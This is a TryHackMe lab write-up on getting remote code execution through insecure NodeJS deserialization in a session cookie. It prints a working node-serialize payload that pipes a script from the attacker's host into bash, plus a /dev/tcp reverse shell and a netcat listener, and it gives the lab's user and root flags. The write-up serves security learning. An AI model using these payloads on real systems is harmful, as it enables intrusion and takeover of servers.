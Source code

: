 ## NodeJS Insecure Deserialization - TryHackMe Writeup
**Overview**\
In JavaScript everything is a terrible mistake.\
This writeup demonstrates exploiting a NodeJS insecure deserialization vulnerability to achieve Remote Code Execution (RCE).

## Initial Setup
Start the target machine and ensure you're connected to TryHackMe VPN if using your own machine.

## Nmap Scan
Let's start with a basic port scan:
```bash
nmap -Pn 10.201.70.206 -v
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-18 13:07 +06
Initiating Parallel DNS resolution of 1 host. at 13:07
Completed Parallel DNS resolution of 1 host. at 13:07, 0.04s elapsed
Initiating SYN Stealth Scan at 13:07
Scanning 10.201.70.206 [1000 ports]
Discovered open port 80/tcp on 10.201.70.206
Discovered open port 22/tcp on 10.201.70.206
Completed SYN Stealth Scan at 13:08, 48.54s elapsed (1000 total ports)
Nmap scan report for 10.201.70.206
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```
Finding: Two ports are open - SSH (22) and HTTP (80).

## Web Application Analysis
**Port 80 Investigation**\
The website allows users to subscribe to newsletters using an email address. The site is built with NodeJS (visible from page indicators).
## Vulnerability Discovery
**Initial Testing**

1. Ran Gobuster directory enumeration - no significant findings
2. Focused on the email subscription functionality
3. Entered a test email and captured the HTTP request for analysis

## Critical Discovery
**Session Cookie Analysis:**

1. Found a session cookie that appeared to be base64 encoded
2. Decoded the cookie revealed a JSON object: {"email":"test@email.com"}
3. Our input was being serialized, stored in the cookie, then deserialized on each request

## Vulnerability Confirmation
**Test Process:**

1. Modified the email value in the decoded JSON
2. Re-encoded with base64
3. Replaced the session cookie in browser
4. Refreshed page - saw modified value reflected

**Conclusion: Confirmed NodeJS deserialization vulnerability.**
## RCE Testing
Used a payload from [opsecx](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) and tweaked it to ping my machine.\
```bash
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ping -c MACHINE_IP',
function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```
## Verification Steps:

1. Encoded the payload to base64
2. Set up listener: sudo tcpdump -i tun0 icmp
3. Replaced session cookie with encoded payload
4. Reloaded the page
Result: Received ping packets confirming RCE
## Exploitation Process
**Step 1: Generate Reverse Shell**\
Shell can be generated from many websites like [My Pentest Tools](https://tex2e.github.io/reverse-shell-generator/), [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), [Payload Playground](https://payloadplayground.com/generators/reverse-shell)
```bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```
**Step 2: Start Netcat Listener**
```bash
nc -lvnp port_number
```
Note: Ensure the port matches your reverse shell payload port.

**Step 3: Host the Payload**
Save the shell payload to a file (e.g., shell.sh) and host it:
```bash
python3 -m http.server 5555
```
It will start a web server from where we can fetch our payload.

**Step 4: Modified Exploitation Payload**
Original ping payload:
```bash
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ping -c MACHINE_IP',
function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```
**Modified RCE payload:**
```bash
{"test":"_$$ND_FUNC$$_function(){\n  require('child_process').execSync(\"curl http://10.17.120.190:4455/shell.sh | bash\", function puts(error, stdout, stderr) {});\n}"} 
```
**Step 5: Execute Exploit**

1. Base64 encode the modified payload
2. Replace session cookie in browser with encoded payload
3. Reload the page
4. Receive reverse shell connection

## Post-Exploitation
**User Flag**
Navigate to /home/dylan/ directory to find the first flag.

## Privilege Escalation
**Check sudo privileges:**
```bash
sudo -l
Matching Defaults entries for ubuntu on ip-10-201-126-113:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ubuntu may run the following commands on ip-10-201-126-113:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```
Wasn't expecting that. Easy escalation: Full sudo access without password requirement.

## User flag: 0ba48780dee9f5677a4461f588af217c
## Root flag: 2cd5a9fd3a0024bfa98d01d69241760e

## Key Learning Points

1. Session Cookie Analysis: Always inspect and decode suspicious cookies
2. Deserialization Detection: Look for base64 encoded data containing JSON/objects
3. NodeJS Exploitation: The _$$ND_FUNC$$_ pattern enables function execution
4. Verification is Critical: Always confirm RCE before proceeding with exploitation
5. Payload Hosting: Simple HTTP servers are effective for payload delivery

## Important Note
Don't just copy-paste flags - understand the methodology. This knowledge will help you identify and exploit similar vulnerabilities in real-world scenarios.
